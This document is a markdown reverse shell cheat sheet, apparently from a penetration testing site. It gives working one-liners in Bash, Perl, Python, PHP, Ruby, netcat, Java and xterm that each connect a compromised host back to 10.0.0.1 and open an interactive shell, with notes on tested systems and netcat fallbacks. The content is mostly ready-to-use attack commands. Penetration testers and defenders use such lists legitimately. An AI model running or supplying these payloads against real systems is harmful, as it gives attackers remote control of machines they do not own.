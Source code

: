 
## Reverse shell cheat sheet

- [[#Bash]]
- [[#PERL]]
- [[#Python]]
- [[#PHP]]
- [[#Ruby]]
- [[#Netcat]]
- [[#Java]]
- [[#xterm]]


### Bash

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

````bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
````

### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

````perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
````

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell).

### Python

This was tested under Linux / Python 2.7:

````python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
````

### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

````php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
````

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby

````ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
````

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

````nc
nc -e /bin/sh 10.0.0.1 1234
````

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

### Java

````java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
````

[Untested submission from anonymous reader]

### xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip